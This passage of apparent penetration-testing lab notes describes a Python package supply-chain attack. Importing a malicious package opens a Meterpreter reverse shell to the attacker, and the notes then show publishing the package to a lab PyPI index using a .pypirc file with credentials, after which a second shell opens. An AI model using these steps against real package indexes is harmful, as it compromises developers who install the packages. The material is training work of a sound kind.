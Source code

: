 Return to cloud kali and see we have captured reverse shell
```
msf6 exploit(multi/handler) >
[*] Sending stage (24772 bytes) to 233.252.50.125
[*] Meterpreter session 1 opened (10.0.1.87:4488 -> 233.252.50.125:52342)
```

Importing the package sent a reverse shell!

Can interact with session with
```
msf6 exploit(multi/handler) > sessions -i 1
```

Then exit 
```
meterpreter > exit
[*] Shutting down Meterpreter...
```

### Publishing Our Malicious Package 
IRL: publish package here  [public Python Package Index](https://pypi.org/)
In demo: target **pypi.offseclab.io** index

Configuring ~/.pypirc File to Add Server URL and Login Credentials
```
kali@kali:~/hackshort-util$ cat ~/.pypirc
[distutils]
index-servers = 
    offseclab 

[offseclab]
repository: http://pypi.offseclab.io/
username: student
password: password    
```

Uploading Our Malicious Pacakge to offseclab Repository
```
kali@kali:~/hackshort-util$ python3 setup.py sdist upload -r offseclab              
...
Submitting dist/hackshort-util-1.1.4.tar.gz to http://pypi.offseclab.io/
Server response (200): OK
```

Obtaining a Reverse Shell After Publishing Our Malicious Package to pypi.offseclab.io PyPI Server
```
msf6 exploit(multi/handler) >
[*] Sending stage (24772 bytes) to 44.211.221.172
[*] Meterpreter session 2 opened (10.0.1.54:4488 -> 44.211.221.172:37604)
```